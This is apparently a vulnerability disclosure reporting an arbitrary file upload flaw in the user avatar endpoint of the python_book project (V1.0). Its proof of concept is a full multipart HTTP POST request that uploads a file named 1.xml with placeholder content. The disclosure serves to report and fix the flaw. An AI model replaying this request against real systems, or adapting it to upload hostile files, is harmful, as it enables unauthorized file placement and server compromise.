

target:https://github.com/geeeeeeeek/python_book version: V1.0

The user avatar upload function of this system has an arbitrary file upload vulnerability.

POC:

```
POST /api/myapp/index/user/update?id=420 HTTP/1.1
Host: 
Connection: keep-alive
sec-ch-ua: "Chromium";v="124", "Microsoft Edge";v="124", "Not-A.Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryxNhamfFApXMRx91F
Accept: application/json, text/plain, */*
Access-Control-Allow-Headers: adminToken, token,Content-Type
TOKEN: a843da0e5b67ff9043d4a14da18af70c
sec-ch-ua-platform: "Windows"
Origin:
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: 
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Content-Length: 1200846

------WebKitFormBoundaryxNhamfFApXMRx91F
Content-Disposition: form-data; name="avatar"; filename="1.xml"
Content-Type: application/octet-stream

123

------WebKitFormBoundaryxNhamfFApXMRx91F
Content-Disposition: form-data; name="nickname"

1
------WebKitFormBoundaryxNhamfFApXMRx91F
Content-Disposition: form-data; name="email"

111111@qq.com
------WebKitFormBoundaryxNhamfFApXMRx91F
Content-Disposition: form-data; name="mobile"

111111@qq.com
------WebKitFormBoundaryxNhamfFApXMRx91F
Content-Disposition: form-data; name="description"

1
------WebKitFormBoundaryxNhamfFApXMRx91F--
```

